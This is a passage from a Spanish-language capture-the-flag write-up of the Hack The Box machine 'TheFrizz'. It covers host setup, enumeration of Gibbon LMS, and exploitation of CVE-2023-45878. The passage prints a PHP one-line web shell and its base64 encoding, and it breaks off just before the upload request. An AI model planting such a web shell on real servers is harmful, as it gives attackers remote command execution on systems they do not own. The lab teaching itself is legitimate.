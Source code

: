 Si presan atención al _Did not follow redirect to_ viene un nombre de dominio, pero, nuestra máquina no sabrá cómo resolver `frizzdc.frizz.htb`, entonces, necesitamos ingresar la dirección IP junto con el nombre del subdominio y del dominio (Preferible en este orden, ya que suele causar problemas en ciertos casos).

```js
❯ nano /etc/hosts

<Snip!>
# Others
10.10.11.60 frizzdc.frizz.htb frizz.htb 
```

Y ya configurado, podremos acceder al servidor web.

![UTMP]({{ "/images/TheFrizz/web.png" | relative_url }})

Enumerando poco a poco la página, encontramos una nota con la versión del framework de la página en `http://frizzdc.frizz.htb/Gibbon-LMS/#`

![UTMP]({{ "/images/TheFrizz/gibbonv.png" | relative_url }})


### Explotación CVE-2023-45878


Si buscamos las vulnerabilidades de la aplicación, encontraremos que tiene vulnerabilidades _Local File Inclusion_ y _Arbirary File Write_, en el siguiente [reporte](https://herolab.usd.de/en/security-advisories/usd-2023-0025/) podremos encontrar el PoC para la _web shell_ __utilizando php__.

En un archivo, ingresamos la _web shell de PHP_, puede ser el típico one liner para la sencillez del payload:

```php
<?php system($_GET['cmd']);?>
```

Luego, lo codificamos en `base64`

```bash
❯ base64 -w0 webshell.php
PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4K
```

Y luego confirmamos el endpoint vulnerable con curl, podemos enviar una petición tipo `POST` o una `GET`, en cualquier caso, deberíamos de notar las diferentes respuestas si existe o no:

![UTMP]({{ "/images/TheFrizz/curl.png" | relative_url }})

Como podemos notar, gracias a que no recibimos respuesta del servidor (no fue un 404), es un indicativo que el recurso existe, pero no devuelve nada y eso es hasta esperado.


_Nota: dado que estamos subiendo una web shell, en un assessment real, no se recomienda poner nombres descritivos o sencillos, por ello, podemos utilizar por ejemplo `uuidgen` para generar una cadena un poco randomizada y larga difícil de predecir y sea más seguro trabajar con ella_


Ahora; ya con todo, podemos explotar el servicio y obtener una web shell, Utilizando `curl` podemos subir nuestra web shell con la siguiente petición:

